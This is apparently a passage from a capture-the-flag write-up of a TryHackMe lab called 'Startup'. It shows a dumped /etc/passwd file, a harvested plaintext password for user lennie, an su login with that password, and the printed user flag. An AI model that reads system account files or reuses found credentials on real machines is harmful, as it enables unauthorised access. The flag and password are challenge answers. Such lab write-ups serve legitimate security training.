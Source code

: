 ```
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
vagrant:x:1000:1000:,,,:/home/vagrant:/bin/bash
ftp:x:112:118:ftp daemon,,,:/srv/ftp:/bin/false
lennie:x:1002:1002::/home/lennie:
ftpsecure:x:1003:1003::/home/ftpsecure:
www-data@startup:/home$ exit
exit
exit
$ exit

```
## Now we have sudo password for lennie
``` 
c4ntg3t3n0ughsp1c3
```
## Let loggin as lennie
```
 su lennie
```
```
www-data@startup:/$ su lennie         
su lennie
Password: c4ntg3t3n0ughsp1c3

lennie@startup:/$ 
```
# User flag
```
cat user.txt
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
```
## Let loggin using ssh bez it much comfortable.